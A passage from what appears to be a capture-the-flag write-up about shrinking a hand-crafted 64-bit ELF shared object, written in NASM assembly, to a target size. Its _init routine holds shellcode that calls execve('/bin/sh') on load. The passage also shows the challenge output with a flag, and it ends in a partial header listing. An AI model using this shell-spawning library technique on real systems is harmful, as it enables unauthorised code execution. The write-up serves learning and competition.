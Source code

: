 ```asm
  dq 0
phdrsize  equ  $ - lhdr
dhdr:
  dd 2  ; p_type
  dd 6  ; p-flags
  dq 0 ; p-offset
  dq filesize
_init:
  xor eax,eax
  xor edx,edx
  mov rbx,'/bin/sh'
  push rbx
  mov rdi,rsp
  push rax
  push rdi
  mov rsi,rsp
  mov al, 59
  syscall
filesize  equ  $ - $$
dynamic:
  dq 0x0c
  dq _init
  dq 0x5
  dq dt_strtab
dt_strtab:
  db 0x6
```

Uploading this 198-byte file gave us:
```
You made it to level 3: hand-crafted! You have 4 bytes left to be flag-worthy. This effort is worthy of 1/2 flags. PCTF{th0ugh_wE_have_cl1mBed_far_we_MusT_St1ll_c0ntinue_oNward}
```

So we needed to reduce the file by 4 more bytes to get it to 194 and hopefully obtain our flag!
So finally on removing the `xor edx,edx` instruction (as the program apparently didn't mind a non-null rdx value), and replacing the `mov` instructions with `push` and `pop` instructions to reduce bytes, we get this incredibly small, but somehow working file:

```asm
; nasm -f bin -o libcopy.so libcopy.asm
BITS 64
  org 0x0
ehdr:           ; Elf64_Ehdr
  db 0x7f, "ELF", 2, 1, 1, 0 ; e_ident
  times 8 db 0
  dw  3         ; e_type
  dw  0x3e      ; e_machine
  dd  1         ; e_version
  dq  i; e_entry
  dq  lhdr - $$ ; e_phoff
  dq  0x358; e_shoff
  dd  0         ; e_flags
  dw  ehdrsize  ; e_ehsize
  dw  phdrsize  ; e_phentsize
  dw  2         ; e_phnum
  ehdrsize  equ  $ - ehdr
lhdr:
  dd 1
  dd 7
  dq 0
  dq $$
  dq $$
  dq filesize + 40
  dq filesize + 40
```